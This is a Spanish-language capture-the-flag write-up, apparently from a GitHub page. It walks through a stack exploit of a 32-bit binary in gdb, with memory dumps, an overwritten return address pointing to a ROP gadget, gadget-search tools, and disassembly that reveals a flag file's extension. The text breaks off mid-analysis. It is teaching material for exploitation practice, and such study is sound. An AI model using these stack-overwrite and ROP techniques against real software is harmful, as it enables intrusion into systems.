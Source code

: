 ```
>>> x/32xw $esp
0xbffff354:	0x0804a039	0xbffff36a	0x41414141	0x41414141
0xbffff364:	0x41414141	0x666d4141	0x0067616c	0x00000001
0xbffff374:	0x1b0b0c41	0xae13374e	0x00000000	0x00000000
```
En strcat copia a la posición 0x0804a039 el nombre del fichero 'mflag'
```
x/32xw 0x0804a039
0x804a039:	0x616c666d	0x00000067	0x00000000	0x00000000

x/32xw $esp
0xbffff354:	0x0804a039	0xbffff36a	0x41414141	0x41414141
0xbffff364:	0x41414141	0x666d4141	0x0067616c	0x00000001
0xbffff374:	0x1b0b0c41	0xae13374e	0x00000000	0x00000000
```
Después de restar 0x1c a $esp:
```
0xbffff370:	0x00000001	0x1b0b0c41	0xae13374e	0x00000000
0xbffff380:	0x00000000	0x00000000	0xb7fae000	0xb7fffc04
```
Ahora tenemos que ingeniarnoslas para apuntar a otro sitio el EIP y seguir con la ejecucción del programa, pero... ¿hacia donde?
Cuando modificamos las variables de la pila para llegar a strcat, fue a partir de la posición 0xbffff36c
```
0xbffff36c:	0x08048690	0x00000001	0x1b0b0c41	0xae13374e
```
La posición 0xbffff370 no la tocamos en su momento, pero ahora es necesario modificarla pues es nuestra posición de retorno. 
Aquí tenemos que ir a una posición de memoria que salte las dos posiciones de memoria de las dos condiciones para ir al strcat y poder seguir ejecutando el programa. 
Para eso hacemos ROP, apuntando a un sitio en memoria donde haya un 'gadget' o código parecido a esto:
```
add  esp,0x8
pop    esi
ret    
```
Se pueden buscar 'gadgets' con gdb-peda, con ropeme o rp-lin-x86. Encontramos el 'gadget' en 0x8048601:
```
set {int}0xbffff370 = 0x8048601
```
```
0xbffff370:	0x08048601	0x1b0b0c41	0xae13374e	0x00000000
0xbffff380:	0x00000000	0x00000000	0xb7fae000	0xb7fffc04
```
Una vez ejecutado nuestro gadget, tenemos el ret en la posición 0xbffff380. ¿Dónde vamos ahora para que nos muestre el flag?
A la hora de preparar nuestro ataque la posición 0xbffff37c no es importante por lo que vamos a poner cualquier valor: 0xdeadbeef
Como ya hemos visto antes, sabemos el nombre del archivo 'mflag', pero desconocemos la extensión del mismo. 
Buscando en .text encontramos la extensión:
```
8048650:	83 ec 1c             	sub    esp,0x1c
8048653:	81 7c 24 20 37 13 b0 	cmp    DWORD PTR [esp+0x20],0xb0b01337  <--- Comparación sospechosa
804865a:	b0 
804865b:	75 23                	jne    8048680 <fgetc@plt+0x220>
804865d:	c7 44 24 16 2e 74 65 	mov    DWORD PTR [esp+0x16],0x7865742e  <--- ¿Extensión? 7865742e=xet.
8048664:	78 
8048665:	66 c7 44 24 1a 74 00 	mov    WORD PTR [esp+0x1a],0x74         <--- ¿Otro caracter de la extensión? 0x74=t
```